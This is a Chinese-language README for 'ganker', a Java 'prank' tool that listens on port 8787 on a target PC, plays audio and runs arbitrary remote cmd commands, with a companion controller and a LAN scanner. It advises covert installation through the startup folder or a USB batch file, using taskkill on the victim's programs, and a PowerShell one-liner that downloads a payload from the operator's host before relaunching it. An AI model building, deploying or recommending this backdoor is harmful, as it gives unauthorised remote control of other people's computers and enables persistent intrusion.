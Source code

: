 # ganker
一個能煩死別人的小程式  
能從遠端朝惡作劇目標電腦定時放音樂，或執行cmd指令

## 各檔用途
* `ganker.java`  
一個沒有gui的java程式，監聽預設port`8787`來執行命令，port可由執行參數中修改  
**執行時需於jar檔案路徑`/music/`內放入名為`music`的`wav`格式聲音檔，作為gank時播放使用**
* `gankerController.java`  
控制`ganker`用的程式，可以下達`ganker命令`，將於後方說明  
啟動時預設連線`localhost:8787`，可於執行參數中修改
* `gankerControllerController.java`  
控制`gankerController`用的程式，可掃描目前同區域網路下的`ganker`，並開啟對應的`gankerController`  
啟動時預設掃描port`8787`，可於執行參數中修改  
**此檔案編譯時需要用classpath連結`gankerController.java`**

## ganker命令
* `整數`  
將於`整數`毫秒後開始播放音樂
* `cmd:指令`  
將執行`指令`內容，如果在windows下將於cmd內執行  
**注意：有些命令不被支援，可以嘗試呼叫新的cmd後再執行不支援的命令**
* `stop`  
停止播放音樂
* `exit`
結束`ganker`程式

## 使用方法
在要惡作劇的目標電腦上執行`ganker.jar`，或是更派一點，把`ganker.jar`放到開機自動啟動資料夾  
再在同區域網路內其他台電腦（或是惡作劇目標本身也行）上執行`gankerController.jar`，如果不在惡作劇目標電腦上執行，記得在執行時給予`gankerController`IP參數，指向惡作劇目標，如果`ganker`的port設定不是預設的`8787`，記得也要改`gankerController`的第二個參數  
然後就可以輸入`ganker命令`了  
如果不知道惡作劇目標在區域網路的哪個IP，可以使用`gankerControllerController`來尋找

# 詳細使用方式
## ganker.jar
命令列：`java -jar ganker.jar [port]`  
`port`預設為`8787`  
如果指定`port`已被佔用的話，`ganker`會嘗試以關閉`ganker`的方式關閉他，意思就是啟動第二個`ganker`時第一個就會關閉，也可以用這方法來重啟`ganker`（更新時會用到）

## gankerController.jar
命令列：`java -jar gankerController.jar [ip] [port]`  
`ip`預設為`localhost`  
`port`預設為`8787`  
GUI操作：
* 左上文字框：指令輸入  
可用enter送出，上下鍵從歷史紀錄選擇上/下一條指令
* 右上文字框：當左邊輸入數字時，將會乘以右邊的倍率送出（預設倍率為毫秒->分鐘）
* send按鈕：送出命令
* stop按鈕：快速鍵，送出停止播放命令
* check按鈕：檢查目標`ganker`是否還活著
* exit按鈕：快速鍵，送出關閉`ganker`命令

## gankerControllerController.jar
命令列：`java -jar gankerControllerController.jar [port]`  
`port`預設為`8787`
GUI操作：
* 選項`reload`  
重新掃描區域網路下的`ganker`
* 選項`ip:port`  
開啟相對的`gankerController`

# 應用方式
基本用法：可以把惡作劇目標電腦開滿計算機，或是在使用到一半開始抬棺等等  
進階用法：用taskkill指令砍掉正在運作的程式  
超強用法：呼叫powershell下載檔案，也可以用這方法遠端更新`ganker`  
快速植入：寫一個batch檔在隨身碟，一執行就把`ganker`丟到開機自動啟動資料夾，然後執行

# 遠端更新ganker方式
**必須要先確保對方能用網路連到你的電腦**  
## Windows：  
1. 使用[fileServer](https://github.com/HSSLC/simple-java-file-server/)，或是自己架簡單的檔案伺服器，反正要能從網路取得資源就是了  
2. 然後將新的`ganker.jar`放入檔案伺服器的檔案系統，然後啟動檔案伺服器  
3. 在`gankerController`中輸入`powershell -Command "(New-Object net.WebClient).downloadFile('這裡填入你的ganker.jar網路資源', 'ganker.jar')"`  
例子：`powershell -Command "(New-Object net.WebClient).downloadFile('http://192.168.0.87/ganker.jar', 'ganker.jar')"`  
4. 然後在`gankerController`中輸入`javaw -jar ganker.jar`重啟ganker
## 其他系統：
看到**其他**這兩個字就知道發生什麼事了吧  
對，窩不知道其他系統怎麼打指令，反正原理就是這樣，自行變通一下吧

# 警語
不要玩太過頭喔



